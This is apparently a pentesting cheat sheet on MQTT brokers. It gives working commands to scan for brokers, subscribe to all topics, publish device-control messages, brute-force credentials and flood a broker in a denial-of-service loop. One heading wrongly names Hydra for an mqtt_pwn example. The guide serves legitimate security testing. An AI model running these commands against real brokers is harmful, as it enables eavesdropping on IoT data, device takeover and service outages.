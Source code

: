 # MQTT

## **Theory**

MQTT (Message Queuing Telemetry Transport) is a lightweight, publish-subscribe network protocol designed for IoT (Internet of Things) devices. It enables low-bandwidth, real-time communication between clients and a broker. MQTT is widely used in IoT applications, such as smart home systems, health monitors, and industrial automation.

Pentesters often target MQTT brokers to exploit weaknesses in authentication, authorization, encryption, and message integrity, as these systems may expose sensitive data or allow attackers to manipulate device behavior.

## **Requirements**

1. Hardware
   * Laptop or PC to run pentesting tools.
   * Access to MQTT broker/IoT device network for testing.
2. Software
   * mosquitto\_pub and mosquitto\_sub (MQTT client utilities for publishing/subscribing messages).
   * MQTT-Explorer (GUI tool for analyzing MQTT topics and messages).
   * Wireshark (for network packet analysis).
   * Nmap (for discovering MQTT services).
   * Burp Suite (for traffic manipulation, useful if MQTT uses web interfaces or APIs).

## **Cheat Sheet**

```bash
# Discover MQTT Broker
nmap -p 1883,8883 -sV <target_ip>

# Subscribe to all topics (listen for messages)
mosquitto_sub -h <broker_ip> -p 1883 -t "#" -v

# Publish a message to control an IoT device
mosquitto_pub -h <broker_ip> -p 1883 -t "home/lights" -m "off"

# Brute-force MQTT broker credentials with mqtt_pwn
~/mqtt_pwn ⇒ python run.py  # Start mqtt_pwn
localhost:1883 >> bruteforce --help

# Capture unencrypted MQTT traffic (use with Wireshark)
tcp.port == 1883

# Denial-of-Service (DoS) Attack on MQTT Broker
while true; do
  mosquitto_pub -h <broker_ip> -p 1883 -t "spam/topic" -m "junk data";
done
```

## **Common Attacks**

1.  Discovering MQTT Broker

    * MQTT brokers typically listen on TCP port 1883 (unencrypted) or 8883 (TLS/SSL). The first step in pentesting an MQTT environment is identifying the broker and verifying if it is publicly&#x20;

    Command Example (Discovering MQTT Broker via Nmap):

    ```bash
    nmap -p 1883,8883 -sV <target_ip>
    ```

    This scans for open MQTT ports on the target IP and reports service details.
2.  Subscribing to MQTT Topics

    * Once the broker is identified, you can subscribe to topics and listen for messages. If the broker allows anonymous access or lacks proper authentication, an attacker can monitor sensitive data being transmitted between IoT devices.

    Command Example (Subscribing to All Topics):

    ```bash
    mosquitto_sub -h <broker_ip> -p 1883 -t "#" -v
    ```

    This subscribes to all topics (`#` is a wildcard) on the broker, displaying message content in real time.
3.  Publishing Malicious Messages

    * Attackers can publish malicious commands to control IoT devices if the broker has weak or no authorization mechanisms. For example, you could control a smart home device by publishing messages on its control topics.

    Command Example (Publishing a Message to a Topic):

    <pre class="language-bash"><code class="lang-bash"><strong>mosquitto_pub -h &#x3C;broker_ip> -p 1883 -t "home/lights" -m "off"
    </strong></code></pre>

    This command publishes the message `off` to the `home/lights` topic, potentially turning off the smart lights.
4.  Brute-Forcing MQTT Credentials

    * Some MQTT brokers require authentication, but weak credentials can often be brute-forced. By using common username/password combinations, an attacker might gain access to the broker.

    Command Example (Brute-Forcing MQTT Credentials with Hydra):

    ```bash
    ~/mqtt_pwn ⇒ python run.py #start mqtt_pwn
    localhost:1883 >> bruteforce --help
    usage: bruteforce [-h] [-u USERNAME [USERNAME ...] | -uf USERNAMES_FILE]
                      [-p PASSWORD [PASSWORD ...] | -pf PASSWORDS_FILE]
    ```
5.  Exploiting Insecure MQTT Connections (Man-in-the-Middle Attack)

    * If the broker uses unencrypted connections (on port 1883), you can perform a man-in-the-middle (MITM) attack by capturing MQTT traffic and injecting commands or stealing data.

    Command Example (Wireshark Capture Filter for MQTT Traffic):

    ```bash
    tcp.port == 1883
    ```

    This captures unencrypted MQTT traffic, allowing you to inspect and manipulate messages.
6.  Denial of Service (DoS) Attack on MQTT Broker

    * Flooding the broker with excessive publish/subscribe requests can overwhelm it, causing a denial-of-service (DoS) and preventing legitimate devices from communicating.

    Command Example (Flooding MQTT Topics with Junk Data):

    ```bash
    while true; do
      mosquitto_pub -h <broker_ip> -p 1883 -t "spam/topic" -m "junk data";
    done
    ```

    This loop repeatedly publishes junk data to overwhelm the broker.

## **Resources**

* [1883 - Pentesting MQTT (Mosquitto)](https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto)
* [Credentials Brute Force ](https://mqtt-pwn.readthedocs.io/en/latest/plugins/brute.html)
* [IoT Pentesting 101: How to Hack MQTT – The Standard for IoT Messaging](https://securitycafe.ro/2022/04/08/iot-pentesting-101-how-to-hack-mqtt-the-standard-for-iot-messaging/)
